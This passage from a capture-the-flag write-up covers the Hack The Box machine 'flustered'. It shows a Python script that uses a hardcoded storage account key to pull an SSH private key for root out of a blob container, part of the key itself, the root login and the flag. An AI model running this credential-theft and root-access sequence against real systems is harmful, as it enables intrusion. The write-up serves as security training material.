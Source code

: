 This tells us there is a container named `ssh-keys`, with a `root.key` in:

```
documents
ssh-keys
	jennifer.key
	root.key
```

We can then download this with the following script:
```python
from azure.storage.blob import BlobServiceClient, BlobClient, ContainerClient, __version__

connect_str = 'DefaultEndpointsProtocol=http;AccountName=jennifer;AccountKey=FMinPqwWMtEmmPt2ZJGaU5MVXbKBtaFyqP0Zjohpoh39Bd5Q8vQUjztVfFphk73+I+HCUvNY23lUabd7Fm8zgQ==;BlobEndpoint=http://127.0.0.1:10000/jennifer;QueueEndpoint=http://127.0.0.1:10001/jennifer;TableEndpoint=http://127.0.0.1:10002/jennifer;'

try:
    blob_service_client = BlobServiceClient.from_connection_string(connect_str)

    # Download the root key blob
    blob_client = blob_service_client.get_blob_client(container='ssh-keys', blob='root.key')
    with open('./root.key', "wb") as download_file:
        download_file.write(blob_client.download_blob().readall())

except Exception as ex:
    print('Exception:')
    print(ex)

```

Viewing the key confirms that it is an SSH key for root:

```
$ head root.key 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAvrfifWpWEAtxdHG7wTIqLGYPJo3TJ/+HzrrYHyzDBADpNEl2U+vi
NYW2N69F6n0Yjd7XZox69xb4AG0FOe6/SEXi+e960L023luJ7UUaJUxravi4BqAPabiZ5Q
```

### Keys to the Kingdom
Finally, we can login as root with SSH:

```
$ ssh -i root.key root@flustered.htb
Linux flustered 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Nov 25 14:40:58 2021 from 10.10.14.156
root@flustered:~# cat root.txt
HTB{s3creTs_fr0m_th3_sT0r4g3_bl0b}
root@flustered:~# 
```

We can get the root flag from root.txt: `HTB{s3creTs_fr0m_th3_sT0r4g3_bl0b}`
